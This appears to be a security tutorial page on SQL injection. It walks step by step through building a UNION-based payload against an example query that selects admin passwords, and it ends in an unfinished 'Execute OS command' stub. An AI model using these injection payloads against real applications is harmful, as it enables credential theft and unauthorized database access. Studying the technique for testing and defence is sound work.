 # SQL Exploitation

## Force SQL query to print user defined output

* There are many ways in which print user defined input. The below SQL query will print user defined string "CUSTOMMESSAGE"
  * `SELECT 'CUSTOMMESSAGE'`
  * `SELECT TOP 1  'CUSTOMMESSAGE' AS` _`column_name`_ `FROM` _`table_name`_ `WHERE '1' = '1'`

### Example

* Given SQL query : `SELECT password FROM admins WHERE username=\'%s\'`
  * Input `%s` is user defined input.
  * _Payload =_ **%s**
* Step 1 : Make the current SELECT query to print null output.
  * This could be done here by sending invalid username for input `%s` 
  * Here we do not need to close the quote. If we add ending quote we will get syntax error.
  * _Payload_  =  **user\_2**
  * _Final SQL query_  =  **`SELECT password FROM admins WHERE username='user_2'`**
* Step 2 : Now we need to add another SELECT query which will be executed after this select in the same inline.
  * This could be done using `UNION` keyword.
  * Here we need to handle quotes properly to make final SQL query syntax correct. See the final SQL query will already have a ending quote, so payload needs to have a missing ending quote.
  * _Payload =_ **user\_2' UNION SELECT \_\_\_\_\_\_**
  * _Final SQL query  =_  **`SELECT password FROM admins WHERE username='user2' UNION SELECT ______'`**
* Step 3 : Now The last part is to define the SELECT statement such that it will print user defined input.
  * _Payload =_ **user2' UNION SELECT 'CUSTOMMESSAGE**
  * _Final SQL Query =_ **`SELECT password FROM admins WHERE username='user2' UNION SELECT 'CUSTOMMESSAGE'`**

## Execute OS command

* d

